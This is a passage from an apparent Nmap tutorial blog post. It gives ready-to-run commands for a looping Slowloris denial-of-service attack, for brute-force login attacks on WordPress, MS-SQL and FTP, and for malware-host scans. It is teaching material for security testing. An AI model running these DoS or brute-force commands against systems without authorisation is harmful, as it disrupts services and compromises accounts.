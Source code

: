 As you can see, in this vulnerability test we were able to detect one CVE (Slowloris DOS attack).   
   
13. Launching DOS with Nmap   
   
Nmap features never seem to end, and thanks to the NSE, that even allows us to launch DOS attacks against our network testings.   
   
In our previous example (#12) we found the host was vulnerable to Slowloris attack, and now we’ll try to exploit that vulnerability by launching a DOS attack in a forever loop:   
   
nmap 192.168.1.105 -max-parallelism 800 -Pn --script http-slowloris --script-args http-slowloris.runforever=true   
   
14. Launching brute force attacks   
   
NSE is really fascinating – it contains scripts for everything you can imagine. See the next three examples of BFA against WordPress, MSSQL, and FTP server:   
   
WordPress brute force attack:   
   
nmap -sV --script http-wordpress-brute --script-args 'userdb=users.txt,passdb=passwds.txt,http-wordpress-brute.hostname=domain.com, http-wordpress-brute.threads=3,brute.firstonly=true' 192.168.1.105   
   
Brute force attack against MS-SQL:   
   
nmap -p 1433 --script ms-sql-brute --script-args userdb=customuser.txt,passdb=custompass.txt 192.168.1.105   
   
FTP brute force attack:   
   
nmap --script ftp-brute -p 21 192.168.1.105   
   
15. Detecting malware infections on remote hosts   
   
Nmap is able to detect malware and backdoors by running extensive tests on a few popular OS services like on Identd, Proftpd, Vsftpd, IRC, SMB, and SMTP. It also has a module to check for popular malware signs inside remote servers and integrates Google’s Safe Browsing and VirusTotal databases as well.   
   
A common malware scan can be performed by using:   
   
nmap -sV --script=http-malware-host 192.168.1.105   
   
Or using Google’s Malware check:   
   
nmap -p80 --script http-google-malware infectedsite.com   
   
Output example:   
   
80/tcp openhttp   
|_http-google-malware.nse: Host is known for distributing malware.   
   
Nmap is one of the most complete and accurate port scanners used by infosec professionals today.   
With it, you can perform simple port scan tasks or use its powerful scripting engine to    
launch DOS attacks, detect malware or brute force testings on remote and local servers.   
   
Today we covered the top fifteen Nmap commands to scan remote hosts, but there’s a lot more   
to discover if you’re starting to use Nmap in your OSINT strategy.   
   
If you also need to map domains, IPs and discover DNS zones, try our SecurityTrails toolkit,   
 or grab a free API account today.   
